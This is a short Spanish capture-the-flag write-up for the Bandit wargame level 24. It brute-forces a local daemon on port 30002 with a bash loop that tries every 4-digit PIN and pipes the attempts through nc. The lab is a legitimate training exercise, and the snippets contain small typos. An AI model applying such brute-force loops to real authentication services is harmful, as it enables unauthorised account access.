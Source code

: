 En este nivel encontramos un "demonio" escuchando en el puerto "30002" que nos dara la pass de "bandit25"

Si proporcionamos la constraseña "bandit24" y una numero secreto de 4-digitos

La única forma de conseguirlo es con fuerza bruta.

```
mktemp -d
touch scrip.sh
chmod +x !$
```
```
#!/bin/bash

for i in {0000..:9999}; do
    echo "pass bandit24 $i"
done
```
Hemos aprendido a hacer una fuerza bruta
```
script.sh > diccionario.txt
```
```
cat diccionario.txt | nc localhost 30002 | grep -v -E "WrongPlease"
```
